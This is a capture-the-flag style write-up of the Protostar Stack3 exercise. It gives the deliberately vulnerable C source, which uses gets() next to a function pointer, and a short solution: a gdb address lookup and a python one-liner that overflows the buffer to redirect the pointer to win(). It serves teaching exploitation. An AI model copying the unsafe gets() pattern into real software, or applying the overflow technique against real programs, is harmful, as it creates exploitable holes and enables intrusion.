 #### Protostar Stack3

##### About
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)  

###### Hints
* both gdb and objdump is your friend you determining where the win() function lies in memory.  
  
This level is at /opt/protostar/bin/stack3

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
Use BOF to change the value of the function pointer fp, make it point to the address of function win().

##### Solution
```
$ gdb stack3
......
(gdb) print win
$1 = {void (void)} 0x8048424 <win>
......
(gdb) quit
$ python -c "print 'A'*64+'\x24\x84\x04\x08'" | ./stack3
```

##### Reference
<https://github.com/Wins0n/Exploit-Exercises_ProtoStar/blob/master/protostar_part1.md>  
<https://thesprawl.org/research/exploit-exercises-protostar-stack/#stack-3>
